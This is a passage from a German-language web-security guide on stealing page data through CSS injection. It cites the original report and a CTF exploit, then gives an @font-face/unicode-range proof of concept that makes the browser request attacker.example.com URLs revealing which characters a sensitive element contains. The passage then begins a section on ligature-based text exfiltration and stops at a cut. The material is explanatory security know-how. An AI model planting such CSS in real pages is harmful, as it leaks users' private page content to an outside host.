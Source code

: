 Das Bewusstsein für diese Mechanismen und potenziellen Schwachstellen ist entscheidend für die Aufrechterhaltung der Websicherheit und den Schutz vor solchen ausbeuterischen Taktiken.

Für weitere Informationen siehe den ursprünglichen Bericht: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

Sie können einen [**Exploit, der diese Technik für ein CTF verwendet, hier überprüfen**](https://gist.github.com/haqpl/52455c8ddfec33aeefb468301d70b6eb).

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

Sie können **externe Schriftarten für spezifische Unicode-Werte angeben**, die nur **gesammelt werden, wenn diese Unicode-Werte auf der Seite vorhanden sind**. Zum Beispiel:
```html
<style>
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?A); /* fetched */
unicode-range:U+0041;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?B); /* fetched too */
unicode-range:U+0042;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?C); /* not fetched */
unicode-range:U+0043;
}
#sensitive-information{
font-family:poc;
}
</style>

<p id="sensitive-information">AB</p>htm
```
When you access this page, Chrome und Firefox holen "?A" und "?B", weil der Textknoten von sensitive-information die Zeichen "A" und "B" enthält. Aber Chrome und Firefox holen "?C" nicht, weil es "C" nicht enthält. Das bedeutet, dass wir "A" und "B" lesen konnten.

### Textknoten-Exfiltration (I): Ligaturen <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Referenz:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

Die beschriebene Technik beinhaltet das Extrahieren von Text aus einem Knoten, indem Schriftligaturen ausgenutzt und Änderungen in der Breite überwacht werden. Der Prozess umfasst mehrere Schritte:
